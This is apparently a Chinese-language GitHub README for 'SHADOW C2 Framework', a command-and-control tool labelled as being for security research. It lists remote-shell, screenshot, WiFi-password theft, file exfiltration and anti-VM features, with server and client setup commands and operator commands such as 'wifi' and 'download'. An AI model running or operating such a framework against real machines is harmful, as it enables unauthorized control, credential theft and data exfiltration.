


<h1 align="center">SHADOW C2 Framework</h1>

<p align="center">
    <em>高级命令控制框架 | 安全研究工具</em>
    <br>
    
    
    
    
</p>

## 系统架构



## 通信流程



## 核心功能

### 1. 远程控制
- 交互式Shell
- 命令执行
- 实时响应
- 多客户端管理

### 2. 信息收集
- 系统信息
- 屏幕截图
- WiFi密码
- 进程列表

### 3. 文件操作
- 文件上传/下载
- 文件搜索
  - 名称匹配
  - 内容搜索
  - 大小过滤
  - 类型筛选

### 4. 安全特性
- AES-CBC 加密
- HMAC 认证
- 虚拟机检测
- 权限控制

## 快速开始

### 服务端部署
```bash
# 安装依赖
pip install pycryptodome

# 启动服务器
python server.py -H 0.0.0.0 -p 4444
```

### 客户端配置
```bash
# 安装依赖
pip install -r requirements.txt

# 连接服务器
python client.py -s <server_ip> -p 4444
```

## 命令使用

### 基础命令
```bash
# 查看客户端列表
C2> list

# 进入交互式Shell
C2> shell client_1

# 执行系统命令
C2> cmd client_1 whoami
```

### 信息收集
```bash
# 获取系统信息
C2> sysinfo client_1

# 屏幕截图
C2> screenshot client_1

# 获取WiFi密码
C2> wifi client_1
```

### 文件操作
```bash
# 文件上传
C2> upload client_1 /path/to/local/file

# 文件下载
C2> download client_1 C:\path\to\remote\file

# 文件搜索
C2> search client_1 -p C:\Users -n *.doc -s 1MB-10MB
```

## 文件搜索语法

```bash
search <client_id> [选项]
选项:
  -p, --path <path>      # 搜索路径
  -n, --name <pattern>   # 文件名模式
  -d, --depth <num>      # 搜索深度
  -s, --size <range>     # 大小范围
  -e, --ext <exts>       # 扩展名
  -c, --content <text>   # 内容搜索
```

## 加密通信


## 项目结构
```
shadow-c2/
├── server/
│   └── server.py        # 服务器端
├── client/
│   ├── client.py        # 客户端
│   └── requirements.txt # 依赖
└── README.md
```

## 开发计划
- [ ] Web管理界面
- [ ] 插件系统支持
- [ ] 多协议通信
- [ ] 代理功能
- [ ] 持久化机制

## 注意事项

### 环境要求
- Python 3.7+
- Windows/Linux
- 管理员权限(部分功能)

### 安全建议
1. 在安全的网络环境使用
2. 定期更换加密密钥
3. 及时清理敏感数据
4. 遵守相关法律法规

## 免责声明
本工具仅供安全研究和授权测试使用。使用者需遵守当地法律法规，对使用过程产生的任何问题负责。

## 更新日志

### v1.0 (2024-01)
- 基础功能实现
- 加密通信支持
- 文件操作优化
- 错误处理完善

---

<p align="center">Made with ❤️ for Security Research</p>
